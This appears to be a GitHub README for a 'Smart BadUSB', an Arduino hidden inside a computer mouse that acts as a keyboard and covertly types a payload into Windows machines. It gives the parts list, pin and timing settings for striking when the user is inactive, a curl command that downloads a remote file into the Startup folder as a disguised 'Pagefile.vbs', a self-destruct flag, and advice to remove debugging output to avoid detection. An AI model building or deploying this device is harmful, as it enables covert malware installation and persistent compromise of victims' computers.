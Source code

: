 <h1>Smart BadUSB Project</h1>

<img src="https://github.com/BhawksGit/SmartBadUSB/blob/main/images/titleSlide.png?raw=true" alt="Smart BadUSB Title Slide">

<h2>Project Overview</h2>
<p>The Smart BadUSB is a modified USB device that mimics a keyboard but is embedded within a standard USB computer mouse. It executes a malicious payload when connected to a host computer without any obvious signs of its presence, making it more discreet than a traditional BadUSB device.</p>

<h2>Key Features</h2>
<ul>
    <li>Detection of the host operating system using HID protocol.</li>
    <li>Use of a photodiode to check for mouse LED activity to determine the best time to execute the payload.</li>
    <li>Self-destruct feature that disables the Arduino after successful payload execution.</li>
</ul>

<h2>Hardware Requirements</h2>
<ul>
    <li>Arduino Pro Micro</li>
    <li>USB 2.0 Expansion Module</li>
    <li>5mm Photodiode</li>
    <li>120 Ohm Resistor</li>
    <li>26 AWG or similar Wire</li>
    <li>Micro USB Solderable Plug or a spliced phone cable</li>
    <li>Soldering Iron & Solder</li>
</ul>

<h2>Using the Program</h2>
<p>This program is designed to operate with specific pin settings and timing variables to effectively deploy a payload on Windows systems. Below are instructions on how to adjust key parameters and deploy the payload safely and effectively.</p>

<h3>Pin Configuration</h3>
<p>Do not change the pin configuration unless necessary, as they are set to match the hardware setup:</p>
<ul>
    <li><strong>photoTransistorPin</strong>: Analog pin A2, used for the phototransistor sensor.</li>
    <li><strong>VCCPin</strong>: Digital pin 15, used as VCC.</li>
    <li><strong>GNDPin</strong>: Digital pin 16, used as ground.</li>
</ul>

<h3>Timing Variables</h3>
<p>Adjust the following timing variables based on the environmental conditions and the Windows system you are targeting:</p>
<ul>
    <li><strong>interval</strong> (500 ms): Frequency at which the sensor checks are performed.</li>
    <li><strong>bootTime</strong> (5000 ms): Wait time after the device is powered on, allowing the PC to boot.</li>
    <li><strong>inactiveTime</strong> (5000 ms): Duration to consider the mouse inactive if no movement is detected.</li>
    <li><strong>lockToCoverScreenTime</strong> (65000 ms): Time to wait for the Windows lock screen to revert to the cover screen.</li>
    <li><strong>activeSensorCount</strong> (500): Count of sensor readings indicating active mouse usage before considering the mouse active.</li>
    <li><strong>activeSensorValue</strong> (1016): Sensor reading threshold to determine mouse activity. Adjust based on your phototransistor's sensitivity.</li>
</ul>

<h3>Payload Execution</h3>
<p>To modify the payload, alter the command within the <code>executePayload</code> function:</p>
<pre>
Keyboard.print("cmd /c curl -L URL -o \"%APPDATA%/Microsoft/Windows/Start Menu/Programs/Startup/Pagefile.vbs\" >nul 2>&1");
</pre>
<p>Replace the URL and file path as needed for your specific payload. Ensure that the commands are compatible with the Windows command line interface.</p>
<h3>Operational Flow</h3>
<p>Upon startup, the device checks if it has executed the payload previously through EEPROM state checking. If the payload has not been executed, it continues with the boot process, waiting for the PC to boot, and detecting mouse and system activity to determine the optimal time to deploy the payload.</p>

<h3>Compatibility</h3>
<p>Currently, this program is designed to work exclusively with Windows-based systems. It leverages specific Windows features, such as the "Run" dialog and keyboard shortcuts, to execute its payload effectively.</p>
<p>Support for Mac and Linux systems is under development, focusing on adapting to different system behaviors and command execution methods specific to these platforms.</p>

<h3>Resetting the Device</h3>
<p>If you need to reset the device and clear the EEPROM:</p>
<pre>
// To reset the EEPROM, short pin 8 to ground momentarily. This clears the flag and allows the payload to be executed again.
EEPROM.write(0, 0);
</pre>

<h3>Debugging</h3>
<p>For debugging purposes, use the serial output to monitor the status and operation of the device. Ensure to disable or remove serial debugging in the final deployment to avoid detection.</p>

<h2>Installation and Setup</h2>
<p>Refer to the Arduino IDE for uploading the provided <code>20231127_badusb_experimental.ino</code> script to the Arduino Pro Micro. Detailed wiring instructions and setup procedures can be found in the documentation linked below.</p>
<a href="https://github.com/BhawksGit/SmartBadUSB">GitHub Repository</a>

<p>Thank you for exploring the Smart BadUSB project. For more information or to contribute, please visit the GitHub repository linked above.</p>
